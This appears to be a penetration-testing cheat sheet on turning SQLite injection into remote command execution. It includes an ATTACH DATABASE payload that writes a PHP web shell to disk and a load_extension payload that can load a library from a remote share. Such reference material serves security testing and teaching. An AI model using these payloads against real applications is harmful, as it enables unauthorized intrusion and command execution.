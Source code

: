 # Web Application - SQL Injection - SQLite

### Remote Command Execution

###### Attach Database

The SQLite `ATTACH DATABASE` statement permit to attach additional databases to
the current database connection. It can thus be used to attach to others
databases stored on the file system and that may contain interesting
information.

Moreover, if the attached database does not exist, a new file is created on
the file system, given the web server user as write privilege at the specified
path. By creating a file that will be executed by the web server and inserting
code in a table field, remote command execution can be achieved upon access of
the file.   

Note: stacked queries must be supported, which is the default SQLite
configuration

```
# Example ATTACH DATABASE to write a PHP web shell

ATTACH DATABASE '<FULLPATH | RELATIVE_PATH>/<FILENAME>' AS file; CREATE TABLE file.cmd (dataz text); INSERT INTO file.cmd (dataz) VALUES ('<?system($_GET["cmd"]); ?>');--
```

###### Load_extension statement

The `SELECT load_extension` statement can be used to load a library from disk
(such as a `DLL` or `shared object .so` file). The second parameter corresponds
to the entry point of the library.

```
UNION SELECT 1,load_extension('<LIBRARY_PATH | \\<IP | HOSTNAME>\<SHARE>\<LIBRARY>','<DllMain | ENTRY_POINT>');--
```

--------------------------------------------------------------------------------

### References

http://atta.cked.me/home/sqlite3injectioncheatsheet
